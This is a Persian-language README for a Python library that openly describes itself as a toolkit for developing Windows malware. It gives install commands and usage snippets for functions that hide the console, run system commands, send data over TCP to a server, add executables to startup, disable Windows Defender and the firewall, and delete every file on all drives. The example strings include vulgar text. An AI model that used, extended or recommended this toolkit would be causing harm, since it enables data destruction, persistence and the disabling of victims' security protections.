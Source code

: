 # به داکیومنت کتابخونه من خوش امدید!
این یک پروژه کاملا اوپن سورس هست که در راستای توسعه بدافزار با پایتون درحال توسعه است

درون سورس هیچ گونه کد خطرناک یا بدافزاری پنهان نشده است و صرفا در راستای کمک به توسعه بهتر برنامه های پایتونی توسعه یافته است


# نحوه نصب کتابخونه!
کافیه اول با استفاده از گیت سورس داخل همین صفحه رو دانلود کنید به کامند زیر

    git clone https://github.com/6E6L6F/Bad_Windows_ELF
   سپس با یوزر ادمین آن را نصب کنید
   

    python3 setup.py install

##نحوه فراخوانی کتابخونه و کلاس ها و توابع آن!

پس از نصب کتابخونه کافیه در محیط کد نویسی خود به صورت زیر کلاس اصلی را صدا بزنید

    from ELF_Wibdows.windows import BadWindows
   تعدادی تابع داخل این کلاس قرار دارد که تمامی آن ها اسینک هستن و برای اجرا شدن آن باید از یک کتابخونه دیگر استفاده کرد به صورت پیش فرض نصب هست
   

    import asyncio
   حالا یک تابع اصلی میسازیم و سپس کلاس را پاس میدهیم به یک متغیر و ان را صدا زده و خروجی ان را خواهیم گرفت
  

    async def main():
		main = BadWindows()
		result = await main.get_drive()
		print(result)
		    
    asyncio.run(main())
اگر کد زیر را اجرا کنید مقدار برگشتی یک لیست حاوی تعدادی دیکشنری داخلش هست که اسم و ادرس تمامی پارتیشن ها و درایو ها همراه با فرمت انان است

یک مثال ساده از چگونگی اجرای کد 


## کاربرد توابع همراه توضیحات

این کلاس در شروع کار تعداد کمی توابع درون خود دارد که به مرور زمان بیشتر خواهد شد

اما توابع

برای گرفتن لیست کل فایل های ریشه ای یک دایرکتوری از تابع زیر استفاده میکنیم 

    await main.get_files()
##
   برای اتصال یک کانکشن با پروتکل تی سی پی از تابع زیر استفاده میکنیم

    await main.connect_to_server(server_address='192.168.1.12' , port_address='8888' , data=b'man kos mikham')
>   این تابع ۳ پارامتر ورودی میگیره که ایپی ادرس سروری که باید وصل بشه بهشو میگیره و دومی پورت باز سرور و سومی در صورت دلخواه میتوانید یک دیتای را ارسال کنید سمت ان سرور
   و در خروجی یک اینستنس از کانکشن برمیگردونه ک در صورت نیاز میتوانید کار های بسیاری انجام دهید
##
تابع بعدی دستورات سیستمی را اجرا و سپس خروجی ان را به ما میدهد  

    result = await bad.run_command("ls")
    print(result)
##
این تابع شل اجرایی برنامه را مخفی میکند و در بک گراند اجرا میکند

    await main.hide_console()
  ##
  این تابع تمامی فایل های درون تمامی هارد ها و پارتیشن های قابل دسترسی ر ا حذف میکند

    await main.delete_all_file()
   ##
   تابع چنج بک گراند از نامش مشخص است که بک گراند کامپیوتر را تغییر میدهد

    await main.change_background(pathfile = '/Desktop/kos.jpg')
> این تابع یک پارامتر تحت عنوان مسیر فایل میگیرد که مسیر مکانی باید باشد که عکس در ان انجا ذخیره شده است و فرمت عکس باید یکی از دو حالت زیر باشد      .(png , jpg)

## 
تابعی در این کلاس وجود دارد که هر فایل اجرایی مد نظز شما را در استارت آپ ویندوز قرار میدهد تا اجرا شود

    await add_to_startup(file_path = "/Desktop/kos.exe")
  > این تابع یک پارامتر میگیرد که به طور پیش فرض خود سورس را در استارت اپ قرار میدهد اما میتونید ان را تغییر داده و هر برنامه ای را در استارت اپ قرار دهید
  
  ##
  یکی از توابع مهم و پرکاربرد در توسعه بدافزار ویندوزی اینجاست. این تابع ویندوز دفندر و فایروال را خاموش میکند
  

    await main.off_firewall_and_defender()
##
در حال حاضر این کلاس این مقدار تابع را درون خود جا داده است که به زودی تابع های جدید تری به ان اضافه خواهد شد

## کلاس ریپیت تایمر

این کلاس یک تابع میگیرد و سپس طی مقدار بازه زمانی مشخص ان را اجرا میکند به طور مثال هر ۱۰ ثانیه یکبار

نحوه فراخوانی

    from ELF_Linux.RepeateTime import RepeatedTimer
    
نحوه استفاده

    timer = RepeatedTimer(interval = 10 , functions = main , *args , **kwargs)
   
   برای اجرا
   

    timer.run()

برای قطع کردن آن

    timer.stop()
    

# Contact Me 
Telegram: @E_L_F_6_6_6
 
Instagram: @E_L_F_6_6_6
 
Rubika: @E_L_F_6_6_6
 
Bale: @E_L_F_6_6_6

